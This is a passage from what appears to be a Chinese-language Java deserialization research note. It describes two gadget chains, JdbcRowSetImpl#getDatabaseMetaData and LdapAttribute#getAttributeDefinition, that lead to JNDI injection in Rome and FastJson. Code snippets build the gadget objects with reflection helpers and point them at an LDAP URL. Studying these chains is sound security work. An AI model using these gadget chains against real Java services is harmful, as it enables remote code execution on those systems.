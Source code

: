 #### JdbcRowSetImpl#getDatabaseMetaData

**JDK 原生可用**

```plain
JdbcRowSetImpl jdbcrowsetimpl = new JdbcRowSetImpl();
        String url = "ldap://127.0.0.1:10990";
        jdbcRowset.setDataSourceName(url);
```

这条链其实就是 FastJson Jdbc 链的另一种 getter 触发方式，效果同样是走到 connect() 中的 lookup 实现 JNDI 注入

由于组件序列化逻辑问题，**该链仅 Rome 可用**，原因详见后文

#### LdapAttribute#getAttributeDefinition

**JDK 原生可用**

```plain
Object obj = newInstance("com.sun.jndi.ldap.LdapAttribute", new Class<?>[]{String.class},"id");
        setFieldValue(obj, "baseCtxURL", "ldap://127.0.0.1:13562");
        setFieldValue(obj, "rdn", new CompositeName("whocansee"+"//b"));

    public static Object newInstance(String classname, Class<?>[] paramTypes, Object... args) throws NoSuchMethodException, ClassNotFoundException, IllegalAccessException, InvocationTargetException, InstantiationException {
        return getConstructor(classname, paramTypes).newInstance(args);
    }
    public static Constructor<?> getConstructor(String classname, Class<?>[] paramTypes) throws ClassNotFoundException, NoSuchMethodException {
        Constructor<?> ctor = Class.forName(classname).getDeclaredConstructor(paramTypes);
        ctor.setAccessible(true);
        return ctor;
    }
    public static void setFieldValue(final Object obj, final String fieldName, final Object value) throws Exception {
        final Field field = getField(obj.getClass(), fieldName);
        if(field != null) {
            field.set(obj, value);
        }
    }
    public static Field getField(final Class<?> clazz, final String fieldName) {
        Field field = null;
        try {
            field = clazz.getDeclaredField(fieldName);
            field.setAccessible(true);
        } catch (NoSuchFieldException ex) {
            if (clazz.getSuperclass() != null)
                field = getField(clazz.getSuperclass(), fieldName);
        }
        return field;
    }
```

此链效果：JNDI 注入
